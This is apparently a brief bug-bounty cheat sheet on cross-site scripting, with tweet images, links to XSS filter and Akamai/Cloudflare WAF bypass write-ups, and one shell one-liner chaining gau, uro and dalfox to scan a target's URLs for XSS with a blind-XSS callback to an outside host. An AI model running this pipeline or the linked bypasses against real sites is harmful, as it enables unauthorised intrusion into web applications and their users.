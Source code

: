 <h1 align="center">XSS --> Cross Site Scripting</h1>

<h3>1</h3>
<a href="https://twitter.com/404death/status/1464102960372224003"><img width="550" height="600px" align="center" src="https://user-images.githubusercontent.com/79082257/143777165-68df1dd0-a69a-4fcb-af8e-5fb7c96463f8.png"/></a>

<h3>2</h3>
<a href="https://twitter.com/0xElkomy/status/1467466221704847361"><img width="600" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/144747863-5c672808-727e-4ac2-a894-ce09966ea765.png"/></a>

Payloads
```
   echo Target.com | gau -subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" | uro | dalfox pipe --deep-domxss --multicast --blind username.xss.ht
```


https://www.cyberick.com/post/xss-payload-filter-bypass-by-xploiterr

https://infosecwriteups.com/how-i-was-able-to-bypass-strong-xss-protection-in-well-known-website-imgur-com-8a247c527975


<h3>Akamai WAF bypass</h3> https://twitter.com/xhzeem/status/1377992310974218245


<h3>Cloudflare WAF bypass</h3> https://twitter.com/mamunwhh/status/1494045988016648192
